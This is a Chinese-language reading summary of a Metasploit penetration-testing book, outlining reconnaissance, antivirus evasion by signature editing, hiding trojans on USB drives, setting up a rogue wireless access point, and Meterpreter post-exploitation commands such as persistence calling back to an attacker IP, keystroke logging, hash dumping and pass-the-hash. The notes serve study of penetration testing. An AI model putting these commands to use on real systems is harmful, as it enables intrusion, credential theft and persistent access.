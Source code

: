 # 《metasploit渗透测试》读后感

> 这是我读的第一本成体系的渗透测试的书籍，可以说从渗透测试的各个阶段进行了展开分析，包括 信息收集、web漏洞利用、无线攻击、客户端攻击、后渗透流程等等。其中，我对于比较感兴趣的部分进行了摘抄，方便以后查看补充。

## 0x01 信息收集
###  外围信息收集

- whois域名注册信息查询

  > 注: whois查询的时候需要去掉前缀

- nslookup与dig域名查询

- ip2location地理位置(国外: GEOIP,国内: cz88,纯真数据库)

- netcraft网站(子域查询)

- ip2location反查域名，`ip-address.com`（7c.com）

### 搜索引擎使用

- `Google Hacking`(siteDigger , search diggity) GHDB

  > parent directory site: +网站
  >
  > filetype: xls 

- 目录扫描

- 特定类型文件

- 搜索网络中的邮箱

  > MSF中的 search_email_collector

### 主机探测与端口扫描

- ICMP ping

- msf

  > arp_sweep: arp请求枚举存活主机
  >
  > udp_sweep: udp数据包

- nmap

  > -sn: 不对开放端口扫描
  >
  > -PU udp扫描
  >
  > -O 判断目标操作系统
  >
  > -A 详细服务和系统信息
  >
  > -sV 服务版本
  >
  > -p 扫描端口
  >
  > -Pn 禁止使用icmp协议

- msf---portscan

- psnnuffle 口令嗅探

## 0x02 免杀

- 加密免杀
- 加壳免杀
- 修改特征码免杀

> 1. 16进制的数据特征码直接修改法
> 2. 字符串大小写修改法
> 3. 等价替换法
> 4. 指令顺序调换法
> 5. 通用跳转法

## 0x03 社工攻击

> SET 社工攻击包

- U盘下隐藏木马文件

  > 1. 作为系统文件隐藏
  > 2. 伪装成其他文件
  > 3. 藏于系统文件夹中
  > 4. 运行windows runau为.....\

- 常用工具

  > 1. Hacksaw
  > 2. Teensy USB HID
  > 3. Switch blade



## 0x04 无线安全

`Aircrack-ng:破解密码常用`===>`杨哲: 《无线网络安全攻防实战》+《进阶》`

`ssh_login http_login`

- 无线AP漏洞利用路径

  > 渗透无线AP固件==》 客户端主机的流量劫持到自己架设的恶意AP==》访问渗透攻击页面

- 架设一个恶意AP

  > 1. 插上USB网卡, ifconfig , iwconfig
  > 2. airmon-ng start wlan0： 将网卡设置为监听模式
  > 3. airbase-ng: 假设假冒的AP
  > 4. 配置DHCP
  > 5. karma.rc(一键配置恶意AP的msf)



## 0x05 meterpreter命令

portfwd: 端口转发 `portfwd add -l 1234 -p 3389 -r`

route : 查看路由

execute: `-H -m -d calc.exe -f wce.exe -a 参数`

persistence: 后渗透攻击模块`run persistence -X -i S -p 443 -r {ip}`

`metsrc模型`

## 0x06 权限提升

信息窃取: `run post/windows/gather/dumplinks keyscan_start`：键击记录

数据包嗅探: `use sniffer ` 

> 1. sniffer_interfaces
> 2. sniffer_start 1
> 3. sniffer_dump 1
> 4. sniffer_stop interfaces

smart_hashdump

psexec: 哈希重放攻击

- 添加路由;

  >  run get_local_subnets
  >
  > route add ____
